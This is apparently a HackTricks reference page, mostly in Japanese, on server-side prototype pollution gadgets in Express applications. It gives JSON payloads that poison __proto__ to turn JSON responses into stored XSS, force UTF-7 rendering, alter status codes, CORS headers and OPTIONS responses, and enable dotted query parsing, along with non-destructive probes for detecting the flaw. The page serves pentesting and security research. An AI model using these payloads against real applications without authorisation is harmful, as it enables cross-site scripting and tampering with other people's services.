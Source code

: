 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSSレスポンスを提供する

**詳細については** [**元の研究を参照してください**](https://portswigger.net/research/server-side-prototype-pollution)

### JSONコンテンツタイプをHTMLに変更する

**JSONコンテンツタイプレスポンス**を使用し、JSONを反映するExpressアプリで：
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
これらのケースでは、JSONコンテンツタイプでは通常XSSは不可能です。しかし、プロトタイプ汚染を利用することで、**Expressを混乱させてHTMLレスポンスを提供させることができます。** この脆弱性は、アプリケーションが**`res.send(obj)`**を使用し、application/jsonコンテンツタイプでボディパーサーを使用することに依存しています。
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** と **`_body`** プロパティを **汚染** することで、**ExpressがHTMLコンテンツタイプを提供し、** `_body` プロパティを反映させることが可能になり、結果として保存されたXSSが発生します。

### UTF7をレンダリング

Expressが **UTF-7コンテンツをレンダリングする** ことが可能です:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## 安全なスキャン技術

### JSONスペース

次のPPは、JSON内の属性に余分なスペースを追加し、機能を壊さないようにします：
```json
{"__proto__":{"json spaces": " "}}
```
次のような反射されたJSONになります:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

次のPPガジェットは、サーバーがHTTPヘッダーを返すようにします: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
**CORSモジュールをインストールする必要があります**

### **OPTIONSメソッド**

次のペイロードを使用すると、**OPTIONSレスポンスからメソッドを隠す**ことが可能です：
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **ステータス**

次のPPペイロードを使用して、**返されたステータスコード**を変更することが可能です:
```json
{"__proto__":{"status":510}}
```
### エラー

文字列のようなプリミティブをプロトタイプに割り当てると、**プロトタイプはオブジェクトでなければならないため、何もしない操作が生成されます**。プロトタイプオブジェクトを`Object.prototype`自体に割り当てようとすると、**例外がスローされます**。これらの2つの動作を使用して、**プロトタイプ汚染が成功したかどうかを検出できます**：
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

アプリケーションがレスポンスにオブジェクトを含めるとき、**`__proto__`**と一緒に**異常な名前の属性**を作成することは有益です。特に、**異常な属性のみがレスポンスに返される**場合、これはアプリケーションの脆弱性を示している可能性があります：
```json
{"unusualName":"value","__proto__":"test"}
```
さらに、Lodashのようなライブラリが使用されるシナリオでは、プロトタイプ汚染（PP）を介してプロパティを設定することと、オブジェクト内で直接設定することが、別の診断アプローチを提供します。そのようなプロパティがレスポンスから省略されている場合、Lodashがマージする前にターゲットオブジェクト内のプロパティの存在を確認していることを示唆しています。
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Expressには、**クエリ文字列パラメータからオブジェクトを作成する**オプションがあります。\
これは、**プロトタイプ汚染の脆弱性**を悪用するバグ**チェーン**で確実に使用できます。
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` はNodeでオブジェクトを作成します。**

## 参考文献

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
